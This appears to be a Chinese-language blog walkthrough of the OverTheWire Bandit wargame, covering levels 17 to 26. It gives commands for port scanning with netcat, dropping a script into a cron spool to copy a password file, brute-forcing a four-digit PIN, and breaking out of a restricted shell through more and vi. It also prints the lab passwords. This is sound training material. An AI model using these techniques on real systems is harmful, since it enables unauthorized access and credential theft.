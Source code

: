 

========================================
 OverTheWire Bandit
========================================

.. post:: 2015-07-26
   :tags: CTF
   :author: LA
   :language: zh_CN

题目地址: `OverTheWire: Bandit <http://overthewire.org/wargames/bandit/>`_.

考的都是些 Linux 下的基本操作, 虽然说是基本操作, 不过那些命令都没用过,
所以做了这些题依然觉得受益匪浅. 其中还有有几道题很有意思...
:del:`有意思的意思是我不会做`.

WeChall 计分板
--------------

OverTheWire 使用 Wechall 的计分板来计分,
具体参见 `WeChall Scoreborad <http://overthewire.org/about/wechall.html>`_

因为题目都在远程的 ssh 主机上, 所以你需要让远程主机知道你是谁.
在你的 `.bashrc` 里加上两个环境变量:

.. code-block:: bash

   export WECHALLUSER="你在 WeChall 的用户名"
   export WECHALLTOKEN="你在 WeChall 的 WarToken"

WarToken 可以在 WeChall 网站的
`Account -> WarBoxes -> Your current WarToken <http://www.wechall.net/warboxes>`_
获得.

在 `~/.ssh/config` 中添加:

.. code-block::

   Host *.labs.overthewire.org
   SendEnv WECHALLTOKEN
   SendEnv WECHALLUSER

在 ssh 连接的时候就会把你的帐号信息发送给远程主机.

在登入一个新的关卡后, 执行 `wechall` 便可获得该关卡的分数.

题目
----

bandit17
^^^^^^^^

   The password for the next level can be retrieved by submitting the password of the current level to a port on localhost in the range 31000 to 32000. First find out which of these ports have a server listening on them. Then find out which of those speak SSL and which don’t. There is only 1 server that will give the next credentials, the others will simply send back to you whatever you send to it.


要从 31000-32000 之间的端口中找出有开放的并且只是 SSL 连接的端口,
往该端口发送上一关的密码就会返回下一关的密码.

找出所有有应答的端口:

.. code-block:: bash

   nc -v -w 2 localhost 31000-32000 2>/tmp.tmpxxx/log
   cat /tmp.tmpxxx/log | grep Succ

`-v` 用来给出连接的详细信息, `-w 2` 指定 timeout,
不知道为什么 `-v` 的信息是直接输出到 `stderr` 的.
`tmp/tmp.xxx` 使用 `mktemp -d` 产生的临时目录.

最后有应答的只有五个端口, 挨个挨个试.

.. code-block:: bash

   openssl s_client -connect localhost:31xxx -ssl3 -quiet

发现是 31790 端口, 返回一个 RSA 私钥, 所以:

.. code-block:: bash

   openssl s_client -connect localhost:31790 -ssl3 -quiet > bandit17.private
   chmod 0600 bandit17.private
   ssh -i bandit17.key bandit17@bandit.labs.overthewire.org
   cat /etc/bandit_pass/bandit17

::

   key: xLYVMN9WE5zQ5vHacb0sZEVqbrp7nBTn


bandit21
^^^^^^^^


   There is a setuid binary in the homedirectory that does the following: it makes a connection to localhost on the port you specify as a commandline argument. It then reads a line of text from the connection and compares it to the password in the previous level (bandit20). If the password is correct, it will transmit the password for the next level (bandit21).

   .. note:: To beat this level, you need to login twice: once to run the setuid command, and once to start a network daemon to which the setuid will connect.

   .. note:: Try connecting to your own network daemon to see if it works as you think


`bandit20` 的家目录下提供了一个程序 `suconnect`\ , 会从你指定的端口读取 `bandit20` 的密码,
如果正确的话返回本关卡的密码.

.. code-block:: bash

   echo GbKksEFF4yrVs6il55v6gwY5aVje5f0j | nc -l -p 1234 & ./suconnect 1234

这里主要是 `&` 的用法, 使两个命令同时执行::

   key: gE269g2h3mw3pwgrj0Ha9Uoqen1c9DGr


bandit24
^^^^^^^^


   A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

   .. note:: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!
   .. note:: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…


这题我觉得有点意思.

cron 是一个定时执行工具, 任务可以通过命令 `crontab` 设定,
配置储存在 `/etc/cron.d` 中, 每分钟 cron 会被触发一次,
到该目录检测是否有任务要执行: `cat /etc/cron.d/cronjob_bandit24`

.. code-block:: bash

   * * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null

所以说 `/usr/bin/cronjob_bandit24.sh` 会每分钟执行一次, 看看这个脚本的内容是什么:

.. code-block:: bash

   #!/bin/bash

   myname=$(whoami)

   cd /var/spool/$myname
   echo "Executing and deleting all scripts in /var/spool/$myname:"
   for i in * .*;
   do
       if [ "$i" != "." -a "$i" != ".." ];
       then
           echo "Handling $i"
           timeout -s 9 60 "./$i"
           rm -f "./$i"
       fi
   done

每次都执行 `/var/spool/bandit24` 下的所有可执行文件, 之后删除.
当然是以 `bandit24` 的身份执行这些操作.

所以我们可以构造一个脚本让他执行.

.. code-block:: bash

   #!/bin/sh
   cp /etc/bandit_pass/bandit24 /tmp/tmp.xxx/psw
   chmod 666 /tmp/tmp.xxx/

这个脚本把密码文件复制到临时目录并且更改他的权限(至少让所有人可读).

中间出了很多愚蠢的错误, 比如写错目录,搞错 `sh` 的路径什么的,
另外, 不能用重定向导出 `bandit24` 的密码, 因为没有权限(为什么没有权限我就不清楚了).

脚本写完后, `chmod +x`\ , 再把它复制到 `/var/spool/bandit24` 目录下, 记得备份,
每隔一分钟该目录就会被清空.

脚本执行后, 到 `/tmp/tmp.xxx` 里就可以看到存有 key 的文件了::

   key: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ


bandit25
========

   A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinaties, called brute-forcing.


有一个守护进程在 `30002` 端口监听, 把 `bandit24` 的密码和一个四位数字组成的 pincode 传给它,
如果密码和 pincode 都正确的话会返回 `bandit25` 的密码.

所以自然是爆破了, 直接用 nc 链接该端口会提示::

   I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.


所以按照格式来, 生成 10000 个 密码 + pincode 的序列传给该端口.

.. code-block:: bash

   for i in {0000..9999}; do echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i" >> /tmp/pin; done
   cat /tmp/pin | nc localhost 30002 > /tmp/log
   cat /tmp/log | grep "Corr" -n1

其实答案就是最后一个端口::

   5670-Wrong! Please enter the correct pincode. Try again.
   5671:Correct!
   5672-The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG


所以::

   key: uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG


bandit26
========

   Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.


这是 26 个 level 里面最有意思的一道题的, 可惜我没能做出来...
参考的答案是这个:
`overthewire-bandit-level-26 <http://codebluedev.blogspot.com/2015/07/overthewire-bandit-level-26.html>`_

题干里说 `bandit26` 的 shell 并不是普通的 `/bin/bash`.

`bandit25` 的家目录下给出了 `bandit26` 的私钥,
登录上去只是打印出了 bandit26 的 ASCII Art 就退出了.

.. code-block::

     _                     _ _ _   ___   __  
    | |                   | (_) | |__ / /  
    | |__   __ _ _ __   __| |_| |_   ) / /_  
    | '_ / _` | '_ / _` | | __| / / '_ 
    | |_) | (_| | | | | (_| | | |_ / /| (_) |
    |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/

执行 `cat /etc/passwd | grep bandit26` 得到::

   **bandit26**\ :x:11026:11026:bandit level 26:/home/\ **bandit26**\ :/usr/bin/showtext


(我到这里就卡住了)

发现 `showtext` 是一个 shell 脚本, 内容如下

.. code-block:: bash

   #!/bin/sh

   more ~/text.txt
   exit 0

即 ssh 连上去后执行默认 shell, 用 `more` 打印出了 ~/text.txt 之后就退出了, 如图:


.. image:: /_images/overthewire-bandit26-1.png


一连上就退出, 那我们怎么让它执行我们想要的命令呢? 直接用 ssh 的 `-t` + 命令 是不行的,
这个命令不会被解释, 因为 `bash` 没有执行.

正确答案是通过 `more`.

`more` 在要输出的内容行数多于终端行数的时候会停下来, 等待你翻页,
所以我们把当前的终端调小, 差不多四行, 再次 shh 上去, `more` 就停下来了. (好脑洞)


.. image:: /_images/overthewire-bandit26-2.png


在 `more` 里面按 v, 系统会调用默认的编辑器来编辑这个文件, 默认是 `vi`\ ,
有了 `vi`\ , 就相当于有了一个终端.

在命令模式执行 `:r /etc/bandit_pass/bandit26`\ , 密码的内容就会被读入.


.. image:: /_images/overthewire-bandit26-3.png


要打开 `sh` 的话, 可以:

.. code-block:: vim

   :set shell sh=/bin/sh
   :sh

这样就可以执行 `wechall` 拿分了::

   key: 5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z


--------------------------------------------------------------------------------

.. isso::
